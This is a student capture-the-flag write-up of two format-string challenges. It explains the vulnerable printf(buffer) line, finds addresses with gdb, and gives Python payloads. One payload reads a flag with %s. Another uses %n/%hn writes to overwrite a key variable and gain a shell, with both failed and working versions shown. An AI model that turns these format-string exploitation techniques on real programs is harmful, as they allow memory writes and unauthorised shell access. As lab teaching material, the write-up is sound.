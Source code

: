 <!--
checksec program
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)

Análise do source code
Linha do código onde está a vulnerabilidade
- printf(buffer). buffer's contents from the user's input, i.e. controlled by the user. This is vulnerable to a format string attack. We can easily supply a format string that prints the contents of the program's memory.
- This vulnerability allows the printing of the program's memory, the stack and heap, and allows writing on it.
- To read the flag, we need to pass the address of the flag to printf. Then, by using the %s format string, we can print the flag's contents. We need make %s read the address of the flag that we passed, as we did in the seedlabs guide.

In checksec, we can see that PIE is not enabled. This means that the addresses of the program are fixed. As sugested on the moodle assignment, we can use gdb to find the address of the flag variable, which is located on the heap.

b main
run
next
p &flag

Using p &flag, we can find the address of the flag.
0x804c060

Or we can run python3 exploit_example.py which pauses the execution

Then we can attach in another terminal to the process by doing
gdb attach <pid>
p &flag
0x804c060

Since PIE is disabled, we can use this same address for the server, and it works.
-->
```python

N = 32	# 32 bytes read in total
content = bytearray(0x0 for i in range(N))

flag_addr = 0x804c060   # the flag address read in the local instance using gdb
content[0:4] = (flag_addr).to_bytes(4,byteorder='little')

s = "%s"

fmt  = (s).encode('latin-1')
content[4:4 + len(fmt)] = fmt


p.recvuntil(b"got:")
p.sendline(content)
p.interactive()

```


## Challenge 2
<!--
checksec program
Arch:     i386-32-little
RELRO:    No RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)


Análise source code:
- The vulnerability is the same, it's the line `printf(buffer)`. buffer is given/controlled by user input. We can provide a format string as input. This allows us to print the contents of the program's memory, as well as writing on the memory.
- In this challenge, the flag is not in memory when the vulnerable printf(buffer) executes. This means we cannot simply read the flag from memory. However, in this case, a shell program is launched if a certain variable in the program's heap has a defined value. So, we just need to change the value of that variable (key) to be the one that passes the if clause. In that case, we'll gain access to the shell and be able to read the contents of the file flag.txt, by doing "cat flag.txt".

The value to pass the if clause is "0xbeef", which is 48879 in decimal.
To write values in the program's memory using a format string vulnerability, we must use %n, which prints the number of characters read until that point on the string. So we need to print 48879 characters in that printf. Then, we just do as in the guide. We need to know the address of the "key" variable. If %n sees that address as the argument, it will change the value of that variable with the characters read.

We can copy the python file from the first challenge and change a few things. We need to change the server to be 4005, and start by testing locally (LOCAL = True)
We need to also change the receive until to be until we receive a '...' sequence, since it is different in this challenge.

We can do the same as before. First run the program using python exploit.py in a terminal, and then attaching to that process using gdb attach <pid>

Then inside gdb, we can simply do:

gdb-peda$ p &key
$1 = (int *) 0x804b320 <key>

and we have read the address of the key variable (inside the heap).
Since there is no PIE, we know this address will be fixed.


%48879x%n


Put:
any 4 bytes at the beginning of the string
the 4 bytes for the address of the variable "key"
%(bignumber)x   -> will read the first 4 bytes of the string as an argument
%n  -> will read the address of the variable "key" as an argument, effectively writing the number of characters printed until now in that variable

48879 - 8 = 48871

"0000<addr>%48871x%n"

"ABCD<key_addr>%48871x%n"


Since this was not working, we tried this input:


s = "ABCD" + "%x" * 8
fmt = (s).encode('latin-1')
content[0: len(fmt)] = fmt

It resulted in this output
You gave me this:ABCD4443424178257825782578257825782578257825000
It shows that the first %x reads the "ABCD", as we expected, the rest is just reading the "%x"

Not understanding how this works, we tested several other things. We came to the conclusion that the address of the variable had the value 0x20, which represents a space. The problem is that scanf stops reading after receiving a space, so our input did not get fully sent.



SO THE SOLUTION WE CAME UP FOR THIS WAS:
writing the value of the address of the variable key (which had a space on it) by using %n and not directly through the input

In task 3.C of the guide of format string vulnerabilities, it is referenced that we can use %hn to modify a one byte memory space. We can use this to change the value of the address of the variable key.
So instead of inputting the exact value of the address, we replace 0x20 by, for example, 0xff, and then overwrite it using %hn with the correct value 0x20.

But for this, we need to pass the exact address of the byte that we want to change. The address of the buffer is 0xffffd160 so we can pass that on the input. Since we need to pass the exact address of the byte, we can calculate it.


Notes
address of buffer: 0xffffd160
2^16 = 65536

payload:
ABCD<buffer_addr - x><key_addr w/o 0x20>

-->
```python
content = bytearray(0x0 for i in range(N))

content[0:4] = ("ABCD").encode('latin-1')

inside_buffer = 0xffffd160 + 8

content[4:8] = (inside_buffer).to_bytes(4,byteorder='little')
content[8:12] = ("ABCD").encode('latin-1')

key_addr = 0x0804b3ff	# 0x20 is replaced by 0xff
content[12:16] = (key_addr).to_bytes(4,byteorder='little')

s = "%496x%hhn%48367x%n"

fmt  = (s).encode('latin-1')
content[16:16 + len(fmt)] = fmt
```
Above is a try to make the address of the variable key be changed to 0x20 and be able to write the value 48879 in it.
Does not work because the content would have 34 bytes.

In order to reduce the size, we tried doing this:

```python
N = 32	# 32 bytes read in total
content = bytearray(0x0 for i in range(N))

content[0:4] = ("ABCD").encode('latin-1')

inside_buffer = 0xffffd1c0 + 8
content[4:8] = (inside_buffer).to_bytes(4,byteorder='little')

key_addr = 0x0804b3ff	# 0x20 is replaced by 0xff
content[8:12] = (key_addr).to_bytes(4,byteorder='little')

s = "%20x%hhn%1$48847x%n"

fmt  = (s).encode('latin-1')
content[12:12 + len(fmt)] = fmt
```

We managed to get the flag with this but only locally. This hardcodes the buffer index which makes it not work on the server.

Another possible solution came up

<!--
Spilling values from other addresses
This new idea is to use an address that ends with 0x19, for example, to make the %n write the value 48879 in the address of the variable key.

0xbe = 190
0xef00 = 61184

-->
Solution that did not work.
```python
key_addr1 = 0x0804b321
key_addr2 = 0x0804b319

content[0:4] = (key_addr1).to_bytes(4,byteorder='little')
content[4:8] = (key_addr2).to_bytes(4,byteorder='little')

s = "%182x%1$n%60995x%2$hn"

fmt  = (s).encode('latin-1')
content[8:8 + len(fmt)] = fmt
```
<!--
- screenshot of failed attempt
Stupid forgot 0x1F and used 0x19



-->
Working exploit:
```python
key_addr1 = 0x0804b321
key_addr2 = 0x0804b31F

content[0:4] = (key_addr1).to_bytes(4,byteorder='little')
content[4:8] = (key_addr2).to_bytes(4,byteorder='little')

s = "%182x%1$n%60995x%2$hn"

fmt  = (s).encode('latin-1')
content[8:8 + len(fmt)] = fmt
```
<!--
- screenshot of key value
- screenshot of flag placeholder

We don't need to worry about the rest of the values in the key variable (the bytes 0x22, 0x23), because these will be empty
(comes from key = 0)
-->

This also works as expected in the server.

![Alt text](screenshots/w7/ctf/flag_server_ch2.png)
